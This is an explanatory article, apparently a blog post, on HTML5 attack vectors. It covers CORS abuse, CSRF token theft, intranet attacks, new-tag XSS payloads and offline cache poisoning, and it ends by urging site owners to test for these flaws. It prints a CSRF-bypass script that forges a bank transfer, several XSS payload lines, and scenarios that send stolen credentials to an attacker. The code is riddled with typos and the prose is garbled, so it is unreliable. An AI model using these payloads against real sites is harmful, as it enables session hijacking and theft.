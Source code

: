 HTML5 Attacks – Common/Uncommon Attack Vectors
----------------------------------------------

HTML5 has been already known for several years. It is one of the key technologies in the Internet. Most websites, transmitting video, slowly give up Adobe Flash technology and switches to HTML5. The fact is that HTML5 is still being developed, and yet it is already used by most websites, mobile applications and IoT. 

All the latest versions of browsers already offer full support for HTML5, and thus created all the time new improvements to the language itself. All these functions are designed in such a way as to facilitate the handling of multimedia and graphical content without having to use any third-party plug-ins or API. The purpose of this article is to introduce to the few attacks on HTML5 and demonstrate how a hacker can quickly take control of your browser.

CORS (Cross Origin Resource Sharing) Attacks
----------------------------------------------

HTML5 must meet the growing needs of developers who want to create high-quality site. At the same time HTML5 has to get rid of some restrictions which were introduced earlier by SOP (Same Origin Policy). Same Origin Policy allowed scripts that come from one place to communicate with each other and benefit from their common methods, but made it impossible to access scripts from different locations. 

Now, to meet all the demands of developers, HTML5 has to break all the restrictions. For example, now Ajax requests can come from different domains and be carried out in various domains. SOP had a limit, consisting in the fact that both the website and scripts on the executed had come from the same domain. Now, without the SOP, a malicious Web page can load any information from any domain using the credentials of the victim and sending this data between multiple domains.

What does it mean? So long as the Website, let's call it Website A, can exchange data with another website, Website B, Website B can read all the data from the site Website A. This was possible by creating an exploit, using HTTP tunnel and a simple tool called Shell of the Future. The tool is based on the simple principle that if a party has an XSS vulnerability and JavaScript code can be executed, than innocent user can by clicking on infected link perform so called Cross Origin Requests. If the tool is used in the correct manner, the attacker can view the sessions of its victims and direct requests to the server, pretending to be the victim. Shell of the Future is a subject for a different article and will not be discussed here.

The fact is that you can takeover a session of any user using XSS vulnerability. This is possible only thanks to the COR support of HTML5 and it allows some tunneled connections. 


But my site is secure I am using CSRF tokens …
----------------------------------------------

HTML5 allows to steal CSRF tokens. For example, if the token goes in the URL, or the GET request, you can safely steal CSRF tokens, and this is consistent with the definition of CORS. An attacker could freely use CSRF token and the user will not even notice. To carry out this attack, attribute "withCredentials" has to be set to true and Access-Control-Allow-Origin to '*'. Let's see how it can be used.

Suppose that your website has CSRF protection, and the token is sent GET request. Now the attacker sends a link to the user together with a valid CSRF token and a link to controlled site. The attacker can now be mediated by the Ajax request in the communication between a bank customer and the bank. Below exploit code that could be used:

    <script>
    function exploit()
    {
      var xmlhttp;
      if(window.XMLHttpRequest)
      {
        xmlhttp=new XMLHttpRequest();
      }
    else
    {
      xlmlhttp=new ActiveXObject(“Microsof.XMLHTTP”);
    }
    xmlhttp.open(“GET”,”http://localhost/myBank/transfer.hmlt”,false);
    xmlhttp.send();
    if(xmlhttp.status=200)
    {
      var str=xmlhttp.responseText;
      var n=str.search(“csrfToken”);
      var final=str.substring(n+18,n+28);
      var url = “http://loclhost/myBank/TransferFund.html?datum1%2F=06-06-2013&amp;Account=1234&amo;csrfToken=” + escape(final);
    xmlhttp.open(“GET”, url, true);
    xmlhttp.send();
    }
    
    </script>
    </head>
    <body onload=”exploit();”>
    </body>


Getting inside Intranet
-----------------------

Many companies have internal sites, which are used for employees. They are usually Intranet applications and are not available on the Web. Because it is a lot of them and they are used by employees in their daily work, they must work together. Unfortunately, most developers sets the header Access-Control-Allow-Origin: * and allows to carry out the CORS attack. It can be really well used by the attacker, who probably will use social engineering and compel employees to click on a suspicious link, and then in a very easy way to attack the internal enterprise applications. Here is an example of such an attack.

1. The internal corporate employee logs on to the intranet.
2. The server returns a response containing the Access-Control-Allow-Origin: * because it communicates well with other applications in the company.
3. The employee receives an e-mail that contains a link to the page with great graphics SVG. Each of these images contain hidden JavaScript code that will run when it is displayed. This is discussed in a separate article.
4. Code JavaScript XMLHttpRequest send silently in the background and waits for a response. This can be done because the appropriate headers are set to be (X-XSS-Protection: 1; Access-Control-Allow-Origin: *).
5. JavaScript analyzes the answers and sends back to the attacker's servers. Virus checking and other control measures have been omitted. We will show how to use this feature soon.
6. We are in the company and act as an employee, and no one will know what happened.

The new vectors of attack XSS in HTML5
-----------------------

Developers in every company will develop their own filters to block XSS attacks on websites. Most of these models on a few simple examples of OWASP. However, HTML5 introduced a tremendous amount of tags to enable support for audio and video. Below are some possible attack vectors that are used virtually every day.


    <video> <source onerror=”javascript:alert(1)”>
    <vide onerror=”javascript:alert(1)”><source>
    <audio onerror=”javascript:alert(1)”><source>
    <input autofocus onfocus=alert(1)>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <button form=test onformchange=alert(2)>X
    <form><button formaction=”javascript:alert(1)”>

Darknet Technique: Offline Web Application Cache Poisoning
----------------------------------------------------------

There is a certain functionality of most web browsers, called an offline cache processing. The functionality has been implemented by most browsers. The functionality is based on the fact that the application can process the contents of the page, even when you use it offline. The main problem of this feature is that an attack "cache poisoning" can be performed using this feature. If an attacker manages to replace at least one file of the site, it has full control over the user account. This can be done eg. using SVG file. You know what is the difference between HTML4 and HTML5? HTML5 essentially does not allow to cache all the files, but it allows you to cache specific files. Using this function, the attacker can steal login details belonging to any user. The following is a sample scenario of attack.

1. The user connects to an unsecured WiFi network at the mall and browse to a page, for example Facebook.
2. A hacker responds to this request by displaying the iframe Facebook login page, the user's browser automatically sends a request to the Facebook page. Login page to Facebook can be replaced by any application, including banking application.
3. Because the network is controlled by a hacker, the user will see a normal login page, but inside will be located additional JavaScript code. In addition, the page contains the appropriate tags, which require her to cache the user's system, so the page is already cached in the browser cache.
4. The sacrifice of a few hours, days, etc etc, it connects to the selected web page, in this case Facebook, but Facebook login page was buffered in a user's system. A page exactly substituted by hackers was buffered in a user's system.
5. The sacrifice is part of the link, and the browser loads a fake site from the cache.
6. The victim introduces credentials that are transported to the attacker. By the way, an attacker can mediate communication between Facebook and the innocent victim.

So through cache poisoning, the attacker can steal user's credentials. 


Summary
-------

Most of these tricks usually are not used or tested against, making it easier for Cybercriminals.

Please make sure you test your website for this problems.


References:

http://resources.infosecinstitute.com/demystifying-html-5-attacks/


http://silenceonthewire.pl/index.php/ataki-na-html5-wprowadzenie/



